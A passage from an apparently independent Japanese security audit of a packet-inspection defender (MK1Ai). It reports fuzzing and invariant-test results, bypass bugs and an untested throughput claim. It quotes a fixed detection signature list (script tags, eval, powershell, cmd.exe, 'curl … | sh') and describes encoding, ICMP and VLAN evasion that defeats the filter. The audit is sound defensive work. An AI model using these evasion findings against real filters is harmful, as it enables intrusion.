# 1. 自作仮想化OS環境 (mk1-sandbox-os) の対話シェルを起動する
./mk1-sandbox-os.sh

# 2. 仮想化OS環境内で MK1-Ai ディフェンダーを起動する (ホストの通信は一切遮断されません)
./mk1-sandbox-os.sh /home/harukiy1225/defender-env/bin/python airgap_ai_defender.py --ram-limit 500

# 3. 仮想化OS環境内で「正常パケット100万回＋攻撃パケット100万回＋実エアギャップ遮断」を完全検証する
./mk1-sandbox-os.sh /home/harukiy1225/defender-env/bin/python scripts/verify_1m_packets_airgap.py \
  --benign-count 1000000 \
  --attack-count 1000000 \
  --workers 4 \
  --ram-limit-mb 500
```

---

## 4. MK1Ai 総合レッドチーム・ランダム攻撃・ゼロトラスト耐性・1.6 Tbps / 5 Pbps 性能検証レポート（独立評価・実測監査）

本セクションは、シニアセキュリティエンジニア／独立評価者の観点から、既存ソースコードを一切改変しない読み取り専用監査と、独立検証ハーネス（[`/tmp/mk1_redteam_audit/redteam_harness.py`](file:///tmp/mk1_redteam_audit/redteam_harness.py)、固定シード `20261028`、出力JSON: [`/tmp/mk1_redteam_audit/redteam_audit_results.json`](file:///tmp/mk1_redteam_audit/redteam_audit_results.json)）およびCネイティブテストランナー（`/tmp/mk1_redteam_audit/mk1_test_runner`）による実測結果に基づき、**A〜K の全11章**で事実のみを報告するものです。

---

### A. エグゼクティブサマリー

* **総合結論**:
  1. **決定論的ルール防御とAI脅威度評価の分離**: [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py) の [`inspect_packet_pipeline()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5831-L5939) において、パケット遮断判定（`block: True`）は**5つの固定条件（フレーム長 `> 65,575B`、`ONI_MODE`、5種の固定ASCII文字列シグネチャ、`parse_error`、ブラックリストIP）のみ**で決定論的に行われており、**3-Head AIスコア（`score_a`, `ai_score`）および複合異常スコア（`composite_score`）は 100% 助言的（`block: False, stage: "advisory"`）** です。そのため、AIの誤推論や暴走によって通信が誤遮断されることはありませんが、逆に**固定シグネチャ5種に一致しない未知の攻撃や難読化攻撃は、AIスコアが `0.99` であっても遮断されません（検知漏れ）**。
  2. **1.6 Tbps / 5 Pbps 主張の真偽**: **「1ノード 1.6 Tbps」「全体 5 Pbps（5,000 Tbps）」が実機計測で達成された事実は一切ありません（`NOT TESTED` / 実機未検証）**。これらは [`scripts/performance_capacity.py`](file:///home/harukiy1225/MK1Ai-main/scripts/performance_capacity.py) における**条件付き有理数算術モデル（仮定値：1ノード 1.6 Tbps 時に 3,908 ノード、800GbE × 70%効率時に 11,162 リンクが必要という割り算）** に過ぎません。当Crostini実機（Intel N100）のPythonパケット検査パイプライン実測値は **7.83 Mbps（64B）〜 29.20 Mbps（1518B）** であり、1.6 Tbps に対して **約 54,788 倍 〜 204,318 倍の性能ギャップ**があります。
  3. **ゼロトラスト・暗号・隔離安全ゲート**: [`mk1_session_ratchet.py`](file:///home/harukiy1225/MK1Ai-main/mk1_session_ratchet.py)（メッセージ毎鍵ラチェット・リプレイ拒否）、[`mk1_quorum.py`](file:///home/harukiy1225/MK1Ai-main/mk1_quorum.py)（Ed25519 2者署名クォーラム）、[`mk1_external_verifier.py`](file:///home/harukiy1225/MK1Ai-main/mk1_external_verifier.py)（Read-Onlyマウント＋Nonce束縛マニフェスト検証）、[`mk1_key_registry.py`](file:///home/harukiy1225/MK1Ai-main/mk1_key_registry.py)（HKDF-SHA384 ドメイン分離＋失効世代チェック）、および S3/S4 実遮断拒否ゲート（`APPROVAL_REQUIRED`）は単体で極めて堅牢（`PASS`）ですが、**`SessionRatchet` 等がメインの [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py) 通信経路に未統合**であるという設計・実装ギャップが確認されました。

* **検証項目ステータス集計**:

| 判定区分 | 件数 | 主な該当項目 |
| :--- | ---: | :--- |
| **`PASS`（合格）** | **18 項目** | 数学的不変条件 1, 2, 3, 8／ファジング Cat 1, 6, 8／ゼロトラスト単体検証（`SessionRatchet`, `mk1_quorum`, `mk1_external_verifier`, `mk1_key_registry`, `mk1_map`）／S3-S4 隔離安全ゲート／AES-256-GCM・X25519・`OPENSSL_cleanse`・`ptrace` 拒否／容量算術モデル検証 |
| **`FAIL`（不合格・欠陥発見）** | **11 項目** | 数学的不変条件 4, 5, 6, 7／ファジング Cat 2（難読化回避 100%）, Cat 3（部分文字列誤検知 3,000件）, Cat 4（プロトコル矛盾・3回目すり抜け）, Cat 5（切り詰めフレーム素通り）, Cat 7（IPv6/ICMP/VLAN回避）, Cat 9（`-inf`/負数スコア・短配列クラッシュ）, Cat 10（DPI例外時パイプライン素通り）／`mk1_path_trust.c` `-Werror` ビルドエラー |
| **`INCONCLUSIVE`（判定保留）** | **2 項目** | AI有効時の未知攻撃防御効果（AIスコアが `block` に反映されない設計のため、検知スコアは上がるが遮断率は 0% で不変）／`SessionRatchet` のシステム全体リプレイ耐性（単体は `PASS` だが本体未接続） |
| **`NOT TESTED`（環境制約により未実施）** | **4 項目** | ① 1.6 Tbps / 5 Pbps 実機ネットワーク負荷試験（物理 800GbE NIC / クラスタ不在）、② Python `pqcrypto` / C `liboqs` による ML-KEM 実機実行（パッケージ未導入）、③ `argon2-cffi` / `webauthn` ライブ実行（パッケージ未導入）、④ `mk1_panel` C TUI ビルド（`libncurses-dev` 未導入）・`tests/` ディレクトリ（アーカイブ内に不在） |

* **最重要の発見事項（上位 5 件）**:
  1. **【P0 / `FAIL`】DPI 検査結果とパイプライン遮断判定の完全な断絶（難読化攻撃 10,000/10,000 件がすり抜け）**:
     [`analyze_dpi_payload()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L1580-L1841) は UTF-16LE/BE `<script>`、`curl ... | sh`、`atob()`、および DPI 例外（`scan_strategy="fail_closed"`）を検知して `suspicious=True` を返しますが、[`inspect_packet_pipeline()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5846-L5858) は `dpi_result` を遮断条件に一切使用せず、生ペイロードの `.lower()` に対する5個の固定ASCII文字列一致しかチェックしません。
  2. **【P0 / `FAIL`】段階的防御（Progressive Defense）の 3 回目以降パケットすり抜けバグ**:
     [`inspect_packet_pipeline()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5861-L5872) において、`parse_error=True` のパケットは1回目・2回目は `block=True` になりますが、3回目に [`evaluate_progressive_defense()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L2263-L2275) が送信元IPをブラックリストへ登録すると同時に `{"defer": True, "action": "rate_limit"}` を返すため、5865行目で即座に **`block=False, stage="rate_limited", score=0.0`（許可）** に反転し、5870行目のブラックリスト検査に到達しません。さらに [`parse_packet_transport()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L664-L727) は切り詰めパケット（`<14B`, `<34B`）や不正IPバージョンに対して `{"parse_error": True}` ではなく空辞書 `{}` を返すため、破損パケットが `block=False` で素通りします。
  3. **【P0 / `FAIL`】鬼モード（`ONI_MODE`）の実行時トグル・シグナル切替が機能しない同期バグ**:
     [`toggle_oni_mode()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L448-L455) は `_ONI_MODE_ACTIVE`（`threading.Event`）を更新しますが、[`inspect_packet_pipeline()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5842) はインポート時に `False` で固定されたグローバル変数 `if ONI_MODE:` を参照しているため、実行時や `SIGUSR1` で鬼モードを有効化してもパケット遮断が一切発動しません。
  4. **【P1 / `FAIL`】非IPv4（VLAN `0x8100` 等）・ICMP（`proto=1`）・IPv6 拡張ヘッダにおけるペイロード抽出の盲点（回避率 100%）**:
     [`extract_payload_bytes()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L739-L804) は `ether_type not in (0x0800, 0x86DD)` または `protocol not in (6, 17)` の場合に空バイト列 `b""` を返すため、ICMP トンネリングや VLAN タグ付きフレーム上の `<script>` / `powershell` ペイロードが 100% 素通りします。
  5. **【P1 / `FAIL`】単語境界なしの固定部分文字列一致による誤検知（False Positive 3,000 / 7,000 件）と異常特徴量（`-inf` / 負値 / 短配列）の未検証**:
     `b"eval("`, `b"powershell"`, `b"cmd.exe"` を境界なしで部分一致判定するため、`my_eval(x)` や `powershell-guide.pdf` を含む正常通信が 100% 誤遮断されます。また `feature_vector` に `[-inf]*10` を渡すと `ai_score=-inf`、長さ 10 未満の配列を渡すと未捕捉の `IndexError` が発生します。

---

### B. 検証環境と変更前状態

1. **Git リポジトリ状態および既存ファイル保全の記録**:
   * 作業ディレクトリ `/home/harukiy1225/MK1Ai-main` はアーカイブ展開ディレクトリであり、`.git` メタデータは存在しません（`git status` / `git rev-parse HEAD` → `fatal: not a git repository`）。
   * 監査開始前後の主要ソースファイルの SHA-256 ハッシュを記録し、既存ソースコードが **1バイトも変更されていないこと** を検証済みです：
     * [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py): `7,437 lines` (`331,093 bytes`) — 未変更
     * [`mk1_session_ratchet.py`](file:///home/harukiy1225/MK1Ai-main/mk1_session_ratchet.py): `192 lines` (`7,718 bytes`) — 未変更
     * [`mk1_quorum.py`](file:///home/harukiy1225/MK1Ai-main/mk1_quorum.py): `385 lines` (`14,764 bytes`) — 未変更
     * [`mk1_external_verifier.py`](file:///home/harukiy1225/MK1Ai-main/mk1_external_verifier.py): `399 lines` (`15,108 bytes`) — 未変更
     * [`mk1_quarantine.py`](file:///home/harukiy1225/MK1Ai-main/mk1_quarantine.py), [`mk1_secure_transport.py`](file:///home/harukiy1225/MK1Ai-main/mk1_secure_transport.py), [`mk1_key_registry.py`](file:///home/harukiy1225/MK1Ai-main/mk1_key_registry.py), [`mk1_memory_guard.py`](file:///home/harukiy1225/MK1Ai-main/mk1_memory_guard.py), [`mk1_map.py`](file:///home/harukiy1225/MK1Ai-main/mk1_map.py) — すべて未変更
2. **ハードウェア・OS・ランタイム環境**:
   * **OS / カーネル**: Linux `6.6.147-09648-g97ef00d8a343` x86_64 (Chromebook Crostini コンテナ / `glibc 2.41`)
   * **CPU / メモリ**: Intel N100 (4 論理 vCPU) / 総 RAM `3,892 MB` (約 3.8 GiB)
   * **Python / 主要パッケージ** (`/home/harukiy1225/defender-env/bin/python`):
     * Python `3.13.5` (GCC `14.2.0`)
     * `torch 2.14.0+cpu`, `cryptography 50.0.1` (OpenSSL `3.5.7`), `psutil 7.2.2`, `requests 2.34.2`, `gdown 6.4.0`
   * **C ネイティブ環境**:
     * `cc` (GCC `14.2.0`), `libcrypto` (OpenSSL `3.5.7`), `libsodium`, `libbpf` 導入済み。
     * `/tmp/mk1_redteam_audit/mk1_test_runner` を直接コンパイル・実行し、OpenSSL AES-256-GCM、`OPENSSL_cleanse`、`libsodium`、`libbpf`、`ptrace` アタッチ拒否（`PR_SET_DUMPABLE=0`）のすべてが **`PASS`** であることを実機確認しました。
3. **環境制約により未実施（`NOT TESTED`）とした項目と理由**:
   * `tests/` ディレクトリ：提供された展開アーカイブ内に `tests/` ディレクトリが含まれていないため、既存の `unittest` ファイル群は未実行（代わりに `/tmp/mk1_redteam_audit/redteam_harness.py` を新規作成して全モジュールを直接検証）。
   * `pqcrypto` / `liboqs`（ML-KEM-768 / ML-KEM-1024）、`argon2-cffi`、`webauthn`：Crostini 内の仮想環境にこれらサードパーティパッケージが未導入であり、外部ネットワークからの新規パッケージ導入を行わない制約のためライブ実行は `NOT TESTED`（ソースコードの静的監査および `X25519` / `HKDF-SHA384` / `AES-256-GCM` / `Ed25519` の実機検証を実施）。
   * `mk1_panel` C バイナリ：`pkg-config` および `libncurses-dev`（`ncurses.h`）が未導入のため `NOT TESTED`。

---

### C. 設計と実装の照合表

| 設計上の主張・機能 | 実装ファイル / 関数 / 行番号 | 検証方法 | 実際の挙動・照合結果 | 判定 |
| :--- | :--- | :--- | :--- | :--- |
| **固定ルールによる決定論的パケット遮断** | [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5831-L5885) [`inspect_packet_pipeline()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5831) | 不変条件1・3・6、10万件ファジング | フレーム長 `>65575B`、5種の固定ASCII文字列、ブラックリストIPは決定論的に `block=True`。ただし `ONI_MODE` 同期バグと `parse_error` 3回目すり抜けバグあり。 | **`FAIL` (一部欠陥)** |
| **AI脅威度評価と最終遮断判断の分離** | [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5886-L5939) [`inspect_packet_pipeline()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5831) | AI ON/OFF/例外 2,000件比較テスト | AIスコア（`ai_score`）と複合スコア（`composite_score`）は `advisory` 辞書に格納されるのみで、`block` は常に `False`。AIが固定ルールの遮断を覆すこともない。 | **`PASS`** |
| **DPI 多重エンコード・難読化検知の遮断反映** | [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L1580-L1841) [`analyze_dpi_payload()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L1580) vs [`inspect_packet_pipeline()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5846-L5858) | ファジング Cat 2 (10,000件) / Cat 10 | `analyze_dpi_payload()` は UTF-16LE/BE `<script>` や `curl`、`atob` を `suspicious=True` と判定するが、`inspect_packet_pipeline()` がその結果を無視するため **`block=False` で全件通過**する。 | **`FAIL`** |
| **段階的防御 (Progressive Defense)** | [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L2263-L2275) [`evaluate_progressive_defense()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L2263) | 不変条件 4 (同一IPからの連続 `parse_error`) | 1・2回目は `block=True` だが、3回目（ブラックリスト昇格時）に `defer=True` を返し、`inspect_packet_pipeline()` が **`block=False, score=0.0`** を返してしまう。 | **`FAIL`** |
| **Dry-Run と S3/S4 実遮断安全ゲート** | [`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5593-L6001) [`evaluate_threat_state()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5593), [`execute_kill_switch()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5991) | Section 8 安全ゲート監査 | `dry_run=True` 時は完全プレビューのみ。`dry_run=False` 時も S4 承認未実装のため `_ISOLATION_APPROVAL_PENDING=True` となり、実OS遮断コマンドは拒否（`return False`）される。 | **`PASS`** |
| **セッション鍵ラチェット・リプレイ防止** | [`mk1_session_ratchet.py`](file:///home/harukiy1225/MK1Ai-main/mk1_session_ratchet.py#L50-L192) [`SessionRatchet`](file:///home/harukiy1225/MK1Ai-main/mk1_session_ratchet.py#L50) | Section 7 ゼロトラスト監査 | メッセージ毎の HMAC-SHA384 鍵更新、厳格な連番検証、リプレイ・順序入替・改ざん・期限切れ拒否は完全動作。ただしメインコード（`airgap_ai_defender.py`）に未接続。 | **`PASS` (単体) / 未統合** |
| **2者署名クォーラムによる隔離解除** | [`mk1_quorum.py`](file:///home/harukiy1225/MK1Ai-main/mk1_quorum.py#L301-L385), [`mk1_quarantine.py`](file:///home/harukiy1225/MK1Ai-main/mk1_quarantine.py#L1-L260) | Section 7 クォーラム監査 | Ed25519 独立2署名検証、単一署名・重複署名・未知署名者・旧世代リプレイの拒否がすべて仕様通り動作。 | **`PASS`** |
| **外部測定検証 (External Verifier)** | [`mk1_external_verifier.py`](file:///home/harukiy1225/MK1Ai-main/mk1_external_verifier.py#L227-L399) [`measure_and_sign()`](file:///home/harukiy1225/MK1Ai-main/mk1_external_verifier.py#L285) | Section 7 外部検証器監査 | `O_NOFOLLOW`、`ST_RDONLY` 強制、Nonce束縛、TOCTOU検出（inode/mtime/size比較）がすべて正常動作。 | **`PASS`** |
| **100万回パケット検証スクリプトの網羅性** | [`scripts/verify_1m_packets_airgap.py`](file:///home/harukiy1225/MK1Ai-main/scripts/verify_1m_packets_airgap.py#L44-L162) | コード監査・テンプレート分析 | 正常10種・攻撃8種（うち6種が固定文字列、1種が65,600B、1種が事前登録ブラックリストIP）を `i % len` で反復しており、難読化や未知攻撃は含まれない。また Phase 3 の遮断は `_disable_all_network_interfaces()` を直接呼んでいる。 | **事実確認済 (限定範囲の証明)** |
| **1.6 Tbps / 5 Pbps スループット・容量主張** | [`scripts/performance_capacity.py`](file:///home/harukiy1225/MK1Ai-main/scripts/performance_capacity.py#L1-L490), [`docs/PERFORMANCE_ASSUMPTIONS.md`](file:///home/harukiy1225/MK1Ai-main/docs/PERFORMANCE_ASSUMPTIONS.md) | Section 10 実測比較・算術検証 | 3,908ノード・11,162リンクの算術計算は正確（`5000.128 Tbps >= 5000 Tbps`）だが、実機計測値ではなく仮定値。Crostini単一コア実測は最大 `29.2 Mbps`。 | **`NOT TESTED` (実機未検証・算術のみ)** |

---

### D. 数学的判定ロジックと不変条件（Invariants 1〜8）の検証結果

#### D.1 最終判定の数式・重み・閾値・優先順位の完全解析

[`airgap_ai_defender.py`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py) におけるパケット単位の判定関数 [`inspect_packet_pipeline()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5831-L5939) と、状態遷移関数 [`evaluate_threat_state()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5593-L5650) の数式および優先順位は以下の通りです。

1. **ハード遮断ルール（優先順位 1〜5：`block = True` を返す唯一の経路）**:
   * **第1優先（フレーム長超過）**: `len(packet_bytes) > 65575`（`_MAX_ENFORCED_FRAME_BYTES`）の場合：
     $$\text{block} = \text{True},\quad \text{stage} = \text{"frame\_length"},\quad \text{score} = 1.0$$
   * **第2優先（鬼モード）**: `if ONI_MODE:` が真の場合（※後述の同期バグあり）：
     $$\text{block} = \text{True},\quad \text{stage} = \text{"oni"},\quad \text{score} = 1.0$$
   * **第3優先（固定ペイロードシグネチャ）**: `lowered_payload = extract_payload_bytes(packet_bytes).lower()` に `_ENFORCEMENT_SIGNATURES = (b"<script", b"javascript:", b"eval(", b"powershell", b"cmd.exe")` のいずれかが含まれる場合：
     $$\text{block} = \text{True},\quad \text{stage} = \text{"signature"},\quad \text{score} = 1.0$$
   * **第4優先（トランスポート解析エラー）**: `transport.get("parse_error")` が真の場合、[`evaluate_progressive_defense(src_ip, "parse_error")`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L2263-L2275) を呼び出し、`defer` が偽（20秒窓内で1回目・2回目）なら：
     $$\text{block} = \text{True},\quad \text{stage} = \text{"parse\_error"},\quad \text{score} = 0.95$$
     （※3回目以降は `defer=True` となり、`block = False, stage = "rate_limited", score = 0.0` を返すバグあり）
   * **第5優先（送信元IPブラックリスト）**: `_is_ip_blacklisted(transport.get("src_ip"))` が真（`_BLACKLISTED_SOURCES[ip] > time.time()`）の場合：
     $$\text{block} = \text{True},\quad \text{stage} = \text{"blacklist"},\quad \text{score} = 0.92$$

2. **助言的（Advisory）スコア計算式（上記 1〜5 に該当しない全パケット：`block = False, stage = "advisory"`）**:
   * **ルールスコア ($S_{\text{rule}}$)**:
     $$S_{\text{rule}} = \min\Bigl(0.99,\; \max\bigl(\text{dpi\_result.score},\; 0.35 \cdot \mathbb{I}[\text{markers} \neq \emptyset]\bigr) + R_{\text{tls\_meta}}\Bigr)$$
   * **AI スコア ($S_{\text{ai}}$)**（`feature_vector` $v \in \mathbb{R}^{10}$ が与えられた場合）:
     $$S_{\text{ai\_raw}} = \min\Bigl(0.99,\; 0.20 + 0.18 v_0 + 0.14 v_1 + 0.12 v_2 + 0.08 v_3 + 0.07 v_4 + 0.06 v_8 + 0.10 v_9\Bigr)$$
     Head B（無害確信度 $P_{\text{benign}} = \text{score\_b}$）がレビュー済み（`_HEAD_B_REVIEWED = True`）かつ $S_{\text{ai\_raw}} < 0.95$ かつ $P_{\text{benign}} \ge 0.90$ の場合、[`_adjust_soft_ai_score()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5823-L5829) により最大 25% 減衰：
     $$\text{attenuation} = \min\bigl(0.25,\; 2.5 \times (P_{\text{benign}} - 0.90)\bigr),\quad S_{\text{ai}} = S_{\text{ai\_raw}} \times (1 - \text{attenuation})$$
   * **数理スコア ($S_{\text{math}}$)**:
     $$S_{\text{math}} = \min\bigl(0.99,\; \max(v_0, v_1, v_2, S_{\text{rule}})\bigr) \quad (\text{特徴量なし時は } S_{\text{rule}})$$
   * **未知挙動スコア ($S_{\text{unknown}}$)** および **行動シグネチャスコア ($S_{\text{behavior}}$)**:
     ポートとプロトコルの不整合（443番ポートの平文HTTP: $+0.18$、80番ポートのTLS ClientHello: $+0.14$ 等）、Shannonエントロピー（$\ge 7.4$ かつ長さ $\ge 128\text{B}$: $+0.10$）、パケット長変動係数・到着間隔ジッタ等から $[0.0, 0.99]$ にクランプ。
   * **複合異常スコア ($S_{\text{composite}}$)** ([`_compute_composite_anomaly_score()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5813-L5820)):
     $$S_{\text{composite}} = \min\Bigl(0.99,\; 0.12 S_{\text{rule}} + 0.10 S_{\text{ai}} + 0.10 S_{\text{math}} + 0.13 S_{\text{unknown}} + 0.55 S_{\text{behavior}}\Bigr)$$
   * **最終返却スコア ($S_{\text{final}}$)**:
     $$S_{\text{final}} = \max\bigl(S_{\text{rule}}, S_{\text{ai}}, S_{\text{math}}, S_{\text{unknown}}, S_{\text{behavior}}, S_{\text{composite}}\bigr)$$

3. **エアギャップ状態遷移式 ([`evaluate_threat_state()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5593-L5650))**:
   * 実効スコア $S_{\text{eff}}$:
     $$S_{\text{eff}} = \begin{cases} \max\bigl(0.99,\; \min(0.99, \text{score\_a} + \text{backdoor\_boost})\bigr) & (\text{backdoor\_detected} = \text{True}) \\ \max\bigl(\text{score\_a},\; \min(0.99, \text{score\_a} + \text{backdoor\_boost})\bigr) & (\text{otherwise}) \end{cases}$$
   * 連続異常カウンタ $\text{anomaly\_counter}$:
     $S_{\text{eff}} \ge 0.95$ のとき $+1$（30秒減衰窓 `_ANOMALY_DECAY_WINDOW_SEC` 内）、$S_{\text{eff}} < 0.95$ のとき $\max(0, \text{counter}-1)$。
   * トリガー条件:
     $$\text{should\_trigger} = \text{backdoor\_detected} \;\lor\; (\text{anomaly\_counter} \ge 3)$$
   * **重要な配線上の事実**: [`main()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L7354-L7375) および [`handle_packet_event()`](file:///home/harukiy1225/MK1Ai-main/airgap_ai_defender.py#L5956-L5970) では、`if pipeline.get("block"):` が真のときにしか `evaluate_threat_state()` を呼び出しません。したがって、固定ルール（`block=True`）に引っかからない限り、AIスコア単体で `evaluate_threat_state()` が呼ばれることはありません。

#### D.2 数学的不変条件（Invariants 1〜8）の検証結果一覧

| 不変条件 ID・検証項目 | 判定 | 実測エビデンス・最小反例（Counterexample） |
| :--- | :---: | :--- |
| **不変条件 1**: 同一入力・同一設定に対する決定論的再現性 | **`PASS`** | 正常パケットおよび `<script>` 攻撃パケットを各 50 回反復入力し、`(block, stage, score, ai_score)` タプルが 50 回すべて完全一致（正常: `(False, 'advisory', 0.4, 0.4)`、攻撃: `(True, 'signature', 1.0)`）。 |
| **不変条件 2**: AI脅威度上昇時の単調性（重大度が低下しないこと） | **`PASS`** | `feature_vector=[0.0]*10` → `[1.0]*10` に引き上げた際、`ai_score` は `0.20` → `0.95`、`final_score` は `0.2003` → `0.9900` へと単調増加。`evaluate_threat_state()` でも `score_a=0.10`（非発動）に対し `score_a=0.99` 3連続で確実に発動。 |
| **不変条件 3**: 固定ルール拒否入力が AI スコア（Head B 無害判定）で許可されないこと | **`PASS`** | `_HEAD_B_REVIEWED=True` かつ Head B が `1.0`（100%無害）を返すモデルを接続しても、`<script>` パケット（`stage="signature"`）および `65,576B` パケット（`stage="frame_length"`）は **5842〜5858行目で AI 評価より先に即座に `block=True` で遮断**される。 |
| **不変条件 4**: 境界値（直前・境界・直後）の挙動一貫性 | **`FAIL`** | フレーム長境界（`65574B`→許可、`65575B`→許可、`65576B`→遮断）は一貫しているが、**①切り詰めヘッダ境界**で `parse_packet_transport()` が `{}` を返して素通りし、**②連続 `parse_error` 境界**で1・2回目は `block=True (score=0.95)` なのに **3回目以降が `block=False (stage="rate_limited", score=0.0)` に反転して許可される最小反例**を確認。 |
| **不変条件 5**: `NaN`, `Infinity`, 負値, 欠落特徴量, 不正型で許可側・クラッシュに倒れないこと | **`FAIL`** | **最小反例**: ① `feature_vector=[float("-inf")]*10` → `ai_score=-inf, math_score=-inf, block=False`。② `feature_vector=[-100.0]*10` → `ai_score=-74.8, math_score=-100.0`。③ `feature_vector=[0.5, 0.5]`（要素数2）→ **5899行目 `feature_vector[9]` で未捕捉の `IndexError` クラッシュ**。④ `feature_vector=["bad"]*10` → **未捕捉の `TypeError` クラッシュ**。 |
| **不変条件 6**: AI無効時でも文書化された必須ルールが動作すること | **`FAIL`** | 5種の固定シグネチャ・フレーム長・ブラックリストは `model=None` でも動作するが、**鬼モード (`toggle_oni_mode(True)`) を呼び出しても `inspect_packet_pipeline()` 内の `ONI_MODE` グローバル変数が `False` のまま変化せず、全パケットが `block=False` で通過する最小反例**を確認。 |
| **不変条件 7**: AIの停止・例外・タイムアウトやDPI例外で防御が無効化されないこと | **`FAIL`** | ① `feature_vector=None` かつ `model` が例外を送出すると、5911行目 `model(tensor)` に `try/except` がないため **`RuntimeError` でクラッシュ**。② `analyze_dpi_payload()` が例外を捕捉して `scan_strategy="fail_closed", suspicious=True` を返しても、**`inspect_packet_pipeline()` がそれを無視して `block=False`（通過）を返す**。 |
| **不変条件 8**: 設定ファイルの不正値・権限・シンボリックリンクによる安全制約解除の防止 | **`PASS`** | `_load_runtime_config()` に対し、①権限 `0666`（world-writable）、②シンボリックリンク、③未知キー `{"evil": 1}`、④負の `ram_limit: -500`、⑤64KB超の巨大ファイルを投入し、すべて `RuntimeConfigError` で確実に拒否されることを実証。 |

---

### E. 再現可能なランダム攻撃・ファジング結果（10カテゴリ × 10,000件 ＝ 100,000件）

固定シード `SEED = 20261028` を用い、[`/tmp/mk1_redteam_audit/redteam_harness.py`](file:///tmp/mk1_redteam_audit/redteam_harness.py) にて 10 カテゴリ × 各 10,000 件（合計 **100,000 件**）の合成パケット・異常入力ファジングを実施しました。

#### E.1 既存の 100万回検証ツール（[`scripts/verify_1m_packets_airgap.py`](file:///home/harukiy1225/MK1Ai-main/scripts/verify_1m_packets_airgap.py)）の監査評価

* **生成方式の限界**: [`scripts/verify_1m_packets_airgap.py`](file:///home/harukiy1225/MK1Ai-main/scripts/verify_1m_packets_airgap.py#L44-L162) は、ハードコードされた正常 10 テンプレートと攻撃 8 テンプレートを `i % len(templates)` で 100万回ループ再生しています。
* **攻撃テンプレートの内訳**: 8種のうち 6種は `_ENFORCEMENT_SIGNATURES` の5文字列（`<script`, `javascript:`, `eval(`, `powershell`, `cmd.exe`）を平文のまま含み、残り2種は `65,600B` フレームと事前登録済み `_BLACKLISTED_SOURCES` IP です。そのため「固定ルールに合致する既知入力が100万回ぶれずに判定されること」は証明できていますが、**難読化・エンコード変換・別プロトコル・未知攻撃への耐性は一切テストされていません**。

#### E.2 独立ファジング 10 カテゴリ（計 100,000 件）集計表

| カテゴリ | テスト件数 | 期待される防御挙動 | 実測ブロック数 (TP / Blocked) | 実測通過数 (TN / FN / Allowed) | 誤検知 (FP) / 未捕捉例外 | 判定 | 主要な発見・原因 |
| :--- | ---: | :--- | ---: | ---: | :--- | :---: | :--- |
| **Cat 1: 既知固定シグネチャ変形** (前後パディング・大文字小文字混合・任意ポート) | 10,000 | 10,000 件遮断 | **10,000** (TP=10,000) | 0 (FN=0) | FP=0 / 例外=0 (p50: `90.7 µs`, p95: `478.8 µs`) | **`PASS`** | `.lower()` 変換後の部分一致により、大文字小文字混合（`<ScRiPt>` 等）も 100% 遮断。 |
| **Cat 2: 難読化・エンコード回避・非固定シグネチャ攻撃** (全10種×1,000件) | 10,000 | 10,000 件遮断 | **0** (TP=0) | **10,000** (**FN=10,000**) | DPI検知=**9,002件** / パイプライン遮断=**0件** | **`FAIL`** | **回避率 100%**。`analyze_dpi_payload()` は 9,002 件を `suspicious=True` と検知したが、`inspect_packet_pipeline()` が無視して全件通過。 |
| **Cat 3: 正常トラフィック＋部分文字列衝突** (正常7,000件＋攻撃3,000件) | 10,000 | 攻撃3,000遮断 / 正常7,000許可 | 6,000 (TP=3,000, **FP=3,000**) | 4,000 (TN=4,000, FN=0) | **FP=3,000** (誤検知率 **42.86%**) | **`FAIL`** | `my_eval(x)`、IT文書 `powershell-guide.pdf`、JSON設定 `"cmd.exe"` の正常通信 3,000 件がすべて誤遮断。 |
| **Cat 4: プロトコル破損・ヘッダ矛盾・段階的防御** (8種×1,250件) | 10,000 | 破損・矛盾フレームの遮断または隔離 | **0** | **10,000** | 例外=0 | **`FAIL`** | 切り詰めフレームや不正IHL/TCPオフセットに `parse_packet_transport()` が `{}` を返し全件通過。443番平文HTTPや80番TLSも `advisory` のみ。 |
